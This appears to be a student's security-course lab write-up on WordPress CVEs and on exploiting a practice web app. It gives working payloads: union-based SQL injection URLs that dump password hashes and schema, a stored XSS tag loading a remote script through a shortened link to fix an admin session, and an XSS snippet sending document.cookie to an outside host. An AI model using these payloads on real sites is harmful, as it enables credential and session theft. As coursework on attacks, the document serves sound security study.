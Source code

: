 # Weeks-7-8-Project-WordPress-vs.-Kali
Time spent: 30 hours spent in total

## SQL Injection:

This is an SQL injection vulnerability in Wordpress version 4.7.1. This vulnerability allows remote hackers to execute arbitrary commands by taking advantage an affected plugin or theme that mishandles a crafted post type name. This vulnerability requires very little knowledge or skill to exploit and is ranked 7.5 on the Common Vulnerability Scoring System. Authentication is not required to exploit the vulnerability. Modification of files and information on the system is possible, but the scope of what the attacker can affect is limited. 

## CRSF:
This is a cross-site request forgery CSRF vulnerability in the widget-editing accesibility-mode feature in Wordpress version 4.7.1. This allows remote hackers to hijack the authentication of unspcified victims for requestst that allow for widget-access action that is related to wp-aadmin/includes/class-wp-screen.php. This vulnerability has a CVSS score of 6.8. This vulnerability allows for limited scope of modification on the attacker’s behalf. Authenticcation is not required to exploit this vulnerability.

Example of this is found at https://github.com/WordPress/WordPress/commit/03e5c0314aeffe6b27f4b98fef842bf0fb00c733

## DoS:
This vulnerability allows remote attackers to cause a denial of service attack via unspecified vendors due to the oEmbed protocol implementation in the WordPress. This vulnerability existed in Wordpress version 4.5.2 and was secured in the 4.5.3 version. This has a CVSS score of 5.0 and was considered to be a low level of access complexity, meaning that very little knowledge is needed to exploit this. The CWE is not defined for this vulnerability.

## Vulnerability #1: SQL Injection (SQLi)

### Steps to recreate:

- Go to the salespearson page https://104.198.208.81/blue/public/salesperson.php?id=1

- Replace the id parameter with a single quote '. Example: https://104.198.208.81/blue/public/salesperson.php?id='

- After the quote type url encoded SQL command. Example: https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+

- You can interate through the records by changing the LIMIT and OFFSET values

- Some of the example commands:
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Cdatabase()+--+ https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ctable_name+FROM+information_schema.tables+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+ https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ccolumn_name+FROM+information_schema.columns+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+

<img src="https://github.com/Rakesh-Nagaraju/Weeks-7-8-Project-WordPress-vs.-Kali/blob/main/sql_git.gif" width=250> <img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_SE(2ndgen)_part_2.gif" width=250><br>

## Vulnerability #2: Session Hijacking/Fixation
### Steps to recreate:

- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
      <script src="https://bit.ly/2z1UCVh"></script>
- https://bit.ly/2z1UCVh is a shortened link for a js script hosted on GoogeDrive
- Sign in again to the website as an admin
- Now the owner on PHPSESSID hardcoded in js script is logged into the website as an admin
- This is possible because new PHPSESSID is not generated when a used logs into website

<img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_11.gif" width=250> <img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_SE(2ndgen)_part_2.gif" width=250><br>

## Vulnerability #3: Cross-Site Scripting (XSS)
### Steps to recreate:

- Go to the Contact page.
- In the text area type the following script
  <script>var node = document.createElement('img');
  node.src = "http://192.168.1.2:3000?cookie="+document.cookie;
  document.getElementById("main-content").appendChild(node);</script>
- Submit the form
- When admin checks the feeedback PHPSESSID will be sent to the http://192.168.1.2:3000 address as a GET parameter

<img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_11.gif" width=250> <img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_SE(2ndgen)_part_2.gif" width=250><br>
